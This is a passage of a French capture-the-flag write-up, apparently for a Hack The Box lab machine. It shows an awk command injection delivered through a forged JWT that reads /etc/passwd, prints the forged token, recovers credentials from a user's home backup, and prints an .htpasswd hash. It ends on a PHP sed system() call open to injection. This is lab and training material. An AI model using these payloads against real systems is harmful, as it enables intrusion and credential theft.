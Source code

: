 On voit qu’on peut sûrement injecter quelque chose dans le awk. Cette commande cherche les occurences. Selon GTFO pour lire un fichier:

```bash
awk '//' "$LFILE"
```

On peut tester sur notre machine et ça fonctionne:

```bash
awk '//' /etc/passwd test123
```

Il nous faut maintenant forger un token avec comme user le fichier désiré sur [https://jwt.io/](https://jwt.io/) avec notre payload /' /etc/passwd ‘ :

```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzcwOTQ3MzV9._nHauLRSmErB9_9vw7_3txigFLxhi0OsozXLHdSO-Xo
```

Il y a deux utilisateurs: bean et christine: on essaye de se connecter via ssh. ça ne marche pas donc on peut chercher clés SSH mais c’est sans succès, on essaye alors le .bashrc et on remarque cela:

```bash
# custom
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
```

On essaye alors de le télécharger:

```bash
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

Téléchargons donc ce backup et on tombe sur le home de l’utilisateur

Dans .config on trouve le mdp de bean.

Cette fois-ci le store.hat-valley.htb peut servir. On essaye de se connecter en tant que Bean mais ça ne marche pas, alors on cherche les fichiers de conf dans /etc/nginx/conf.d/.htpasswd

```bash
admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1
```

On essaye de se connecter avec le mdp précédent parce qu’il était écrit de l’utiliser partout et on est log. Rien de particulier sur le site en lui même. Cependant vu que l’on a accès aux fichiers du serveur on va les analyser. 

On remarque que cart_actions.php utilise la commande sed:

```bash
system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
```
